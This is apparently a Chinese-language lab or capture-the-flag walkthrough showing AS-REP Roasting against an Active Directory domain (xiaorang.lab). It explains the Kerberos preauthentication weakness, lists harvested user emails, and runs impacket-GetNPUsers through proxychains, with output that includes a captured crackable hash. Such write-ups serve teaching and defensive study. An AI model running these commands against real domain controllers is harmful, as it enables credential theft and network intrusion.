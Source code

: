 ## 172.22.15.13 AS-REP Roasting

:::info AS-REP Roasting

AS-REP Roasting 是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)" 。而该属性默认是没有勾选上的。预身份验证是 Kerberos 身份验证的第一步 (AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。

当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT 票据 和 该用户 Hash 加密的 Session Key 返回。因此，攻击者就可以对获取到的 用户 Hash 加密的 Session Key 进行离线破解，如果破解成功，就能得到该指定用户的密码明文。

AS-REP Roasting 攻击条件

域用户设置了 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)"

需要一台可与 KDC 进行通信的主机 / 用户

:::

将从数据库中得到的用户数据，提取出来邮箱信息

```plaintext
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
```

另存为 `user-emails.txt` 文件之后，执行爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-GetNPUsers -dc-ip 172.22.15.13 xiaorang.lab/ -usersfile user-emails.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fbe0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df4466a4ae689de516da594307dffd2
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```